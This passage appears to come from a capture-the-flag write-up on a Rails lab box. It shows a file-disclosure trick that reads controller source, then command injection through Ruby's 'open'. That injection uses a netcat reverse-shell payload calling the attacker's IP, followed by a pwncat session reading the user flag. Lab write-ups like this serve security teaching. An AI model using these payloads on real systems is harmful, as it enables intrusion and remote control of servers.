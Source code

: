 I get a list of controllers and their functions for each path on the server from the `/rails/info/routes` path.

I think I'll find the admin controller at `app/controllers/admin_controller.rb`. I'll change the POST body to `report_log=/proc/self/cwd/app/controllers/admin_controller.rb`.

```ruby
class AdminController < ApplicationController
  def index
    if !is_admin?
      flash[:error] = "You must be an admin to access this section"
      redirect_to :login
    end

    @report_file = helpers.get_report_file()

    @files = Dir.glob("report*log")
    p @files
  end

  def create
    if !is_admin?
      flash[:error] = "You must be an admin to access this section"
      redirect_to :login
    end

    report_log = params[:report_log]

    begin
      file = open(report_log)
      @content = ""
      while line = file.gets
        @content += line
      end
      send_data @content, :filename => File.basename(report_log)
    rescue
      redirect_to request.referrer, flash: { error: "The report was not found." }
    end

  end
end
```

The code above indicates that the `report_log` parameter's contents are sent directly to `open`. Since I have control over it, if I start the file path with a `|`, it will execute what comes after it.

I change the POST body to `report_log=| nc 10.10.14.6 443 -e /bin/bash;`. I trigger the XSS again, and when it works, a shell connects to port 443.

```
msplmee@kali:~$ pwncat-cs -l -p 443
[09:51:51] Welcome to pwncat 🐈!                         
[09:52:26] received connection from 10.10.11.190:60406  
(local) pwncat$                                          
(remote) rails@derailed:/var/www/rails-app$ cd
(remote) rails@derailed:/home/rails$ cat user.txt 
584*****************************
```

